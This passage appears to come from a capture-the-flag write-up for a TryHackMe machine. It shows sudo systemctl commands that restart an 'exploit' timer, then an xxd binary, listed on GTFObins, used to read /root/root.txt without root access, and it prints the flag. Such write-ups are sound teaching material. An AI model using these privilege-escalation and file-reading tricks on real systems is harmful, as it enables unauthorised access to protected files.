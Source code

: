 ![120e2b1e89c733d8b29c3e68202bebbc.png](../../2%20-%20Resources/Others/Flameshots/120e2b1e89c733d8b29c3e68202bebbc.png)

and then reload it and run it :

```
comte@ip-10-10-8-70:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
comte@ip-10-10-8-70:/etc/systemd/system$ sudo /bin/systemctl restart exploit.timer
```

## GTFObins

We search on [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) for xxd :

<img src="../../Flameshots/ba42b46764d6e1e7e7c75af1a8aebd45.png" alt="ba42b46764d6e1e7e7c75af1a8aebd45.png" width="502" height="88" class="jop-noMdConv">

So we can read the root flag easily (without becoming root) :

![f6b1c5cc8e2f15e7868b65cffaa92497.png](../../2%20-%20Resources/Others/Flameshots/f6b1c5cc8e2f15e7868b65cffaa92497.png)

```
comte@ip-10-10-8-70:/opt$ ./xxd "/root/root.txt" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{dca75486094810807faf4b7b0a929b11e5e0167c}

```

Pwned !!